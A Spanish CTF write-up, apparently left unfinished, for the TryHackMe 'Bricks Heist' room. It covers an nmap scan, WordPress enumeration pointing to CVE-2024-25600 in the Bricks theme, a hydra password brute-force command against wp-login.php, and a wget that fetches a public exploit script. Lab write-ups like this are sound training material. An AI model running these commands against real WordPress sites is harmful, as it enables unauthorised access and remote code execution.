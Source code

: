 ```yaml
---
title: "Test"
platform: "THM"
publishedAt: 2025-05-09
cover: "/images/ctf/nota1-cover.webp"
preview: "DEscrivivijnn"
tags: [rockyou]
link: "tesxt.link"
toc:
  - text: "🔍 Reconocimiento inicial"
    id: "reconocimiento-inicial"
  - text: "🎯 Enumeración de WordPress"
    id: "enumeracion-de-wordpress"
  - text: "🔓 Acceso inicial"
    id: "acceso-inicial"
  - text: "💥 Explotación del CVE"
    id: "explotacion-del-cve"
---
```


# 🧱 TryHackMe – Bricks Heist | Write-up técnico


![image.png](/images/ctf/nota1-0.webp)


![image.png](/images/ctf/nota1-1.webp)


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado, y qué grupo está detrás.


---


## 🔍 Reconocimiento inicial


Comenzamos con un escaneo completo:


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Se detectan los siguientes servicios:

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🎯 Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

---


## 🔓 Acceso inicial


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💥 Explotación del CVE


Usamos el exploit público para el CVE-2024-25600:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```

